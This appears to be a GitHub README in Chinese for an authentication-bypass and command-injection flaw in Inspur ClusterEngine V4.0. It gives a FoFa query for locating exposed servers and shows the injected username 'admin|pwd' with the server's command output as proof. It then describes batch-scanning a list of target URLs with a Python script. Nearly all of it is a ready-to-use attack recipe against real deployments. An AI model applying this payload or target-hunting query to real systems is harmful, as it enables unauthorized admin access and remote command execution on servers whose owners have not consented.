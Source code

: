 # 影响范围：  
已知浪潮ClusterEngineV4.0  
# FoFa fork:  
title="TSCEV4.0"
# 漏洞复现  
访问登录页面：  
https://xxx.xxx.xxx.xxx:8443/module/login/login.html 
  
![image](image/login.png)  
  
使用用户名admin|pwd和任意密码进行登录  
  
![image](image/username.png) 

![image](image/burp.png)

服务器返回结果：  

```
{"err":"","exitcode":0,"out":"/\n"}
```

登陆成功，进入管理界面！！！  

![image](image/frame.png)

# 脚本使用
待检测地址存放在Url.txt中，保存在脚本同目录下。  
python3 any-user-login.py 

![image](image/run.png)





